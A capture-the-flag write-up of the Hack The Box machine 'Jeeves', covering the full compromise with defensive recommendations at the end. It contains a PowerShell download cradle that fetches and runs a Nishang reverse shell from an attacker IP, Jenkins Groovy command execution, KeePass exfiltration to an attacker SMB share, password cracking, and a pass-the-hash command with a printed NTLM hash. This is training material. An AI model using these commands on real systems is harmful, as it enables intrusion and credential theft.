# HTB - Jeeves

**IP Address:** `10.129.228.112`  
**OS:** `Windows 10 (10.0.10586)`  
**Difficulty:** `Easy`  
**Tags:** #Jenkins #Groovy #Nishang #KeePass #PassTheHash #ADS

---
## Synopsis

Jeeves is an easy Windows machine. Full-port enumeration reveals IIS on port 80 (“Ask Jeeves”), SMB/RPC, and a Jetty HTTP service on port 50000. Directory fuzzing finds `/askjeeves`, an exposed Jenkins instance with a Script Console that allows command execution as `jeeves\kohsuke`. A Nishang PowerShell reverse shell yields the user flag. A KeePass database (`CEH.kdbx`) in the user profile is exfiltrated over SMB, cracked offline, and contains an Administrator NTLM hash used for Pass-the-Hash. The root flag is hidden in an Alternate Data Stream on the Administrator desktop.

---
## Skills Required

- Basic Windows and web enumeration (`nmap`, `ffuf`)
- Comfort with Jenkins / Groovy script console concepts
- Offline password cracking (`john` / KeePass)
- Pass-the-Hash tooling basics

## Skills Learned

- Abusing an exposed Jenkins Script Console for RCE and reverse shells
- Exfiltrating files with Impacket `smbserver`
- Cracking KeePass master passwords and mining credential stores
- Locating flags in NTFS Alternate Data Streams (`dir /R`)

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

Check if the host is alive using ICMP:

```bash
ping -c 1 10.129.228.112
```



TTL `127` is consistent with a Windows host one hop away.

---
### 1.2 Port Scanning

Scan all TCP ports to identify open services:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.228.112 -oG allPorts
```

- `-p-` : Scan all 65,535 ports  
- `--open` : Show only open ports  
- `-sS` : SYN scan (stealthy and fast)  
- `--min-rate 5000` : Increase scan speed  
- `-Pn` : Skip host discovery  
- `-oG` : Output in grepable format  



Extract the open ports:

```bash
extractPorts allPorts
```



Open ports: `80,135,445,50000`.

---
### 1.3 Targeted Scan

Run a deeper scan on the identified ports with version detection and default scripts:

```bash
nmap -sCV -p80,135,445,50000 10.129.228.112 -oN targeted
cat targeted
```

- `-sC` : Run default NSE scripts  
- `-sV` : Detect service versions  
- `-oN` : Output in human-readable format  




**Findings:**

| Port(s) | Service | Notes |
|---|---|---|
| 80 | Microsoft IIS httpd 10.0 | HTTP title “Ask Jeeves”; TRACE enabled |
| 135 | msrpc | Microsoft Windows RPC |
| 445 | microsoft-ds | SMB (Workgroup: WORKGROUP); guest used by scripts |
| 50000 | http (Jetty 9.4.z-SNAPSHOT) | HTTP 404 at `/`; hostname `JEEVES` |

---
## 2. Service Enumeration

### 2.1 Jetty / Jenkins path discovery (port 50000)

Port 80 serves the thematic “Ask Jeeves” IIS site, but the Jetty listener on 50000 returns 404 at `/`, so content discovery is the next step to find an application base path:

```bash
ffuf -u http://10.129.228.112:50000/FUZZ -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt
```



`askjeeves` returns HTTP `302`, pointing at a Jenkins instance under `/askjeeves/` (observed as Jenkins 2.87 in the UI).

---
## 3. Foothold

### 3.1 Jenkins Script Console RCE

Browsing to the Jenkins Script Console confirms command execution on the host. A simple Groovy wrapper runs `whoami` and returns `jeeves\kohsuke`:

```groovy
cmd = "whoami"
println cmd.execute().text
```



Running `ipconfig` confirms the Windows host and matches the lab IP:

```groovy
cmd = "ipconfig"
println cmd.execute().text
```



### 3.2 Nishang reverse shell as `kohsuke`

To upgrade from one-shot commands to an interactive shell, prepare Nishang’s `Invoke-PowerShellTcp.ps1` with a reverse callback to the attack host:

```bash
tail -n 1 Invoke-PowerShellTcp.ps1
# Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.14 -Port 8001
```



Serve the script over HTTP, listen with netcat, and trigger a download cradle from the Script Console:

```bash
python -m http.server 8000
nc -lvnp 8001
```

```groovy
cmd = """ powershell "IEX(New-Object Net.WebClient).downloadString('http://10.10.15.14:8000/Invoke-PowerShellTcp.ps1')" """
println cmd.execute().text
```



The callback lands as `jeeves\kohsuke` (cwd under `C:\Users\Administrator\.jenkins`).

### 3.3 User flag

From the shell, read the user flag on `kohsuke`’s desktop:

```powershell
ls ../../kohsuke/Desktop
type ../../kohsuke/Desktop/user.txt
```



🏁 **User flag obtained**: `e3232272596fb47950d59c4cf1e7066a`

---
## 4. Privilege Escalation

### 4.1 KeePass database discovery and exfiltration

Local enumeration under `C:\Users\kohsuke\Documents` finds `CEH.kdbx`. Host an Impacket SMB share and copy the database off-box:

```bash
impacket-smbserver share $(pwd) -smb2support
```

```powershell
copy C:\Users\kohsuke\Documents\CEH.kdbx \\10.10.15.14\share\CEH.kdbx
```



### 4.2 Crack KeePass and recover Administrator hash

Extract the KeePass hash and crack it with `rockyou`:

```bash
keepass2john CEH.kdbx > jeeves.hash
john -w=/usr/share/wordlists/rockyou.txt jeeves.hash
```



Master password recovered: `moonshine1`. Opening the database in KeePassXC shows entry **Backup stuff** storing an Administrator NTLM hash:

`aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00`



### 4.3 Pass-the-Hash to Administrator

Reuse the hash with `pth-winexe` to open a cmd shell as Administrator:

```bash
pth-winexe -U 'Administrator%aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00' //10.129.228.112 cmd.exe
```



`whoami` returns `jeeves\administrator`. The desktop contains `hm.txt` with the hint *“The flag is elsewhere. Look deeper.”* instead of `root.txt`.

### 4.4 Root flag via Alternate Data Stream

List Alternate Data Streams on the desktop and read the hidden stream attached to `hm.txt`:

```cmd
dir /R
powershell Get-Content -Path "hm.txt" -Stream "root.txt"
```



🏁 **Root flag obtained**: `afbc5bd4b615a60648cec41c6ac92530`

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. Enumerate ports `80/135/445/50000`; identify Jetty on `50000`.
2. Fuzz `/askjeeves` → exposed Jenkins Script Console → RCE as `kohsuke`.
3. Nishang reverse shell → user flag on `kohsuke` desktop.
4. Exfiltrate and crack `CEH.kdbx` → Administrator NTLM hash.
5. Pass-the-Hash to Administrator → root flag in ADS `hm.txt:root.txt`.

---
## Defensive Recommendations

- Do not expose Jenkins (especially Script Console) without authentication and network controls; disable or tightly restrict script consoles in production.
- Avoid storing privileged NTLM hashes or cleartext admin secrets in password managers on endpoints reachable by low-privilege users.
- Monitor for Pass-the-Hash style remote execution and unusual SMB connections to attacker-controlled shares.
- Educate operators that sensitive data can hide in NTFS Alternate Data Streams; include ADS checks in IR playbooks.
